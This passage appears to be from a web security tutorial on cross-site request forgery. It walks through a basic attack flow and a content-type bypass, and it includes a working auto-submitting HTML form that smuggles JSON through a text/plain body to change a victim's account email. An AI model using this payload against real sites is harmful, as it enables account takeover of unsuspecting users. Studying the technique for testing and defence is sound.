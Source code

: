 The proof of concept can be hosted and the link to that resource is then sent to the victim. When opened, the following steps describe a CSRF attack:

1. The victim will open the malicious link sent by the attacker
    
2. The victim's browser will perform the HTTP request
    
3. The server will acknowledge the HTTP request and make the state-changing action on behalf of the victim
    

Sometimes it can be that easy, but usually it's not. Let's take a look at some other more advanced cases.

## 2) Content-Type based CSRF

In some contexts, developers develop web apps to only send data over to the API in JSON. Some content types, like JSON, <mark style="background: #FF5582A6;">trigger another browser security measure (CORS) and will make our CSRF attempt futile.</mark>

**To bypass this case, we can check if the API server is capable of handling other content types such as form data**. 

![CSRF Example 2](https://www.datocms-assets.com/85623/1723747144-image_2.png?auto=format "CSRF Example 2")

						CSRF Example 2

You may also come across an API that only accepts data as JSON. Even in that case, it is possible to send data in JSON without triggering CORS by enforcing the **"text/plain" content type!**

![CSRF Example 3](https://www.datocms-assets.com/85623/1723747134-image_3.png?auto=format "CSRF Example 3")

						CSRF Example 3

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="https://app.example.com/api/profile/update" method="POST" enctype="text/plain">
      <input type="hidden" name='{"test":"x' value='y","new_email":"attacker@example.com"}'/>
      <input type="submit" value="Submit request"/>
    </form>
    <script>history.pushState('','','/');document.forms[0].submit();</script>
  </body>
</html>
```

- The attacker **hosts a malicious page** containing the hidden form.
    
- The victim **visits the page**, and the form **auto-submits** using JavaScript:

```html
<script>document.forms[0].submit();</script>
```

-  Since the session cookie is **automatically sent**, the request is **authenticated**, allowing the attacker to alter the victim’s account.
    